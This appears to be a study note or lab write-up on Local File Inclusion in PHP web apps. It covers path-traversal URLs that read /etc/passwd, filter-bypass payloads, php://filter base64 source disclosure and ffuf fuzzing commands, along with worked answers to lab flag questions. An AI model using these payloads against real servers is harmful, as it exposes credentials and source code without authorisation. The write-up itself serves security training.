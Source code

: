 # 🤽‍♀️ File Disclosure

## Local File Inclusion (LFI)

Let's see how we can exploit these vulnerabilities in different scenarios to be able to read the content of local files on the back-end server.

Imagine a web app where we can choose language ->

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

if the web application is pulling a file that is now being included in the page, we may be able to change the file being pulled to read the content of a different local file.

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Sometimes we will need to use relatives paths and going back to root ->

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```

A more advanced LFI attack is a `Second Order Attack`. This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (`/profile/$username/avatar.png`). If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

_**Using the file inclusion find the name of a user on the system that starts with "b".**_

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Submit the contents of the flag.txt file located in the /usr/share/flags directory.**_

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Basic Bypasses

One common LFI filter is one that deletes substrings of (`../`), to bypass this if we use `....//` as our payload, then the filter would remove `../` and the output string would be `../` as well as `..././` or `....\/` and several other recursive LFI payloads. Furthermore, in some cases, escaping the forward slash character may also work to avoid path traversal filters (e.g. `....\/`), or adding extra forward slashes (e.g. `....////`)

Another way of bypassing would be to URL encode `../` into `%2e%2e%2f`, which may bypass the filter

<figure><img src="../../../.gitbook/assets/image (1380).png" alt=""><figcaption></figcaption></figure>

{% content-ref url="../command-injections/" %}
[command-injections](../command-injections/)
{% endcontent-ref %}

Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. Let's say we can call paths that are under the `./languages ,` we could start our payload with the approved path, and then use `../` to go back to the root directory

```
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

***

some web applications append an extension to our input string (e.g. `.php`), to ensure that the file we include is in the expected extension.

In earlier versions of PHP, defined strings have a maximum length of 4096 characters

PHP also used to remove trailing slashes and single dots in path names, so if we call (`/etc/passwd/.`) then the `/.` would also be truncated, and PHP would call (`/etc/passwd`)

it is also important to note that we would also need to `start the path with a non-existing directory` for this technique to work.

```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Here is a command to do that ->

```shell-session
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

***

PHP versions before 5.5 were vulnerable to `null byte injection`, which means that adding a null byte (`%00`) at the end of the string would terminate the string and not consider anything after it.

_**The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt**_

```
http://94.237.54.205:42808/index.php?language=languages/....//....//....//....//flag.txt
```

## PHP Filters

If we identify an LFI vulnerability in PHP web applications, then we can utilize different [PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php) to be able to extend our LFI exploitation

[PHP Filters](https://www.php.net/manual/en/filters.php) are a type of PHP wrappers,where we can pass different types of input and have it filtered by the filter we specify. To use PHP wrapper streams, we can use the `php://` scheme in our string, and we can access the PHP filter wrapper with `php://filter/`. We will mainly use the parameters `resource` and `read`.\
There are 4 main filters: [String Filters](https://www.php.net/manual/en/filters.string.php), [Conversion Filters](https://www.php.net/manual/en/filters.convert.php), [Compression Filters](https://www.php.net/manual/en/filters.compression.php), and [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)

To find php pages:

```shell-session
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

If we wanted to read the code from config.php or any php file we found, we could think of doing the following:

```
http://<SERVER_IP>:<PORT>/index.php?language=config
```

But since it's not HTML it would not render anything but we could disclose their sources with the `base64` PHP filter

```url
php://filter/read=convert.base64-encode/resource=config
```

Which would give this ->

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And now we just need to decode the code with:

```shell-session
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```

_**Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer**_

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.255.40:38460/FUZZ.php
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://83.136.255.40:38460/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
